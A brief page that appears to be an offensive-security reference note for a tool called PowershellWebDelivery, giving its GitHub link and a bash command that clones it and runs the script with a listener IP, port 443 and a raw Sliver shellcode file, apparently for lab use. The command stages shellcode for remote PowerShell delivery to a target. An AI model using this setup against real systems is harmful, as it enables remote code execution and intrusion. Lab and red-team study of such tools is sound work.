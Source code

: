 https://github.com/maxDcb/PowershellWebDelivery

Git clone

```bash
git clone https://github.com/maxDcb/PowershellWebDelivery
cd PowershellWebDelivery
# In order, the IP hosting the web server, the web server's port, and the raw shellcode
python3 PowershellWebDelivery.py --ip 10.10.15.250 --port 443 --raw /home/kali/work/prolab/sliver/CRAZY_TIMBALE.bin

```